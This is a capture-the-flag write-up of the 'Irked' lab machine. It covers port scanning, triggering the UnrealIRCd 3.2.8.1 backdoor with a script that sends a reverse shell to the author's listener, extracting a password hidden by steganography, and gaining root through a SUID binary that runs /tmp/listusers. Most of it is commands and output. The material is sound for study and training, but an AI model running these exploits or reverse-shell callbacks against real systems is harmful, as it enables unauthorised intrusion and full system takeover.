

Irked

Recon
Starting with nmap. Alongside SSH and Apache, there are three ports serving UnrealIRCd (6697, 8067, 65534) plus rpcbind.
[irked] nmap -Pn -sSVC -p- -T5 --min-rate 2000 -v -oN nmap 10.129.71.144
Nmap scan report for 10.129.71.144
Host is up (0.15s latency).
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp open http Apache httpd 2.4.10 ((Debian))
111/tcp open rpcbind 2-4 (RPC #100000)
6697/tcp open irc UnrealIRCd
8067/tcp open irc UnrealIRCd
46273/tcp open status 1 (RPC #100024)
65534/tcp open irc UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernelPort 80 is a near-empty Apache page (only /manual is present), so I added irked.htb to /etc/hosts and pivoted to the IRC daemon. Connecting raw with nc and registering a nick prints the exact version:
[irked] nc irked.htb 6697
:irked.htb NOTICE AUTH :*** Looking up your hostname...
NICK jk
USER jk 0 * myname
:irked.htb 001 jk :Welcome to the ROXnet IRC Network jk!jk@10.10.14.172
:irked.htb 002 jk :Your host is irked.htb, running version Unreal3.2.8.1Exploitation
Unreal3.2.8.1 is the release that shipped with a backdoor in its source tree, CVE-2010-2075. The tainted code passes any data sent after the token AB; straight to system(), so any client can run shell commands on the server before authenticating.
I used exploit2.py, which opens a socket to the IRC port and sends AB; followed by a Perl reverse shell pointed back at my listener. With nc waiting on 4444, running it fires the backdoor:
[irked] python3 exploit2.py irked.htb 6697 10.10.14.172 4444[irked] nc -lvnp 4444
ircd@irked:/home/djmardov/Documents$ id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)Post Exploitation
The shell lands as ircd. In djmardov's Documents folder there is a hidden .backup file. It is not a login password but a passphrase, and the wording hints at steganography:
ircd@irked:/home/djmardov/Documents$ cat .backup
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSssPort 80 served an image, irked.jpg. Running steghide against it with that passphrase extracts an embedded file:
[irked] steghide extract -sf irked.jpg
Enter passphrase: UPupDOWNdownLRlrBAbaSSss
wrote extracted data to "pass.txt".
[irked] cat pass.txt
Kab6h+m+bbp2J:HGThat string is djmardov's password. It works over SSH (or a simple su), giving a real session and the user flag:
[irked] ssh djmardov@irked.htb
djmardov@irked.htb's password: Kab6h+m+bbp2J:HG
djmardov@irked:~$ cat ~/user.txtPrivilege Escalation
Searching for SUID binaries turns up a non-standard one, /usr/bin/viewuser, owned by root:
djmardov@irked:/tmp$ find / -perm /4000 2>/dev/null | xargs ls -la
...
-rwsr-xr-x 1 root root 7328 May 16 2018 /usr/bin/viewuser
...Running it prints a banner and the logged-in users, then tries to execute /tmp/listusers and fails because the file does not exist:
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2026-01-23 09:09 (:0)
djmardov pts/1 2026-01-23 10:05 (10.10.14.172)
sh: 1: /tmp/listusers: not foundThe binary invokes /tmp/listusers with the SUID root privileges and never validates its contents, so whatever I put in that file runs as root. I confirmed with id, then swapped in a command to read the flag:
djmardov@irked:/tmp$ echo 'id' > /tmp/listusers
djmardov@irked:/tmp$ chmod 777 /tmp/listusers
djmardov@irked:/tmp$ /usr/bin/viewuser
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0 2026-01-23 09:09 (:0)
djmardov pts/1 2026-01-23 10:05 (10.10.14.172)
uid=0(root) gid=1000(djmardov) groups=1000(djmardov),24(cdrom),...
djmardov@irked:/tmp$ echo 'cat /root/root.txt' > /tmp/listusers
djmardov@irked:/tmp$ /usr/bin/viewuser